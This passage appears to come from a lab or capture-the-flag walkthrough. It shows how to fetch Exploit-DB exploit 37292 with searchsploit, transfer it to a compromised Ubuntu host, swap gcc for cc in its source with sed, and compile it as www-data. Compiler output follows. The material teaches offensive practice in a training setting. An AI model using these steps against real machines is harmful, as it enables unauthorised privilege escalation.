 ~~~
$ /data/src/exploitdb/searchsploit -m 37292
~~~

Transfer the exploit that you have downloaded (`37292.c`) to the server.

## #4.4

**Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!**

**What development tools are installed on the machine?**

*Hint: Its a VERY simple fix. You're only changing 1 character...*

Let's try to compile the exploit:

~~~
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
~~~

`gcc` is not installed, but `cc` is available:

~~~
www-data@ubuntu:/tmp$ which cc
/usr/bin/cc
~~~

All we need to do is to replace `gcc` by `cc` in the exploit:

~~~
www-data@ubuntu:/tmp$ sed -i "s/gcc/cc/g" 37292.c
~~~

And to compile it with `cc`:

~~~
www-data@ubuntu:/tmp$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
~~~
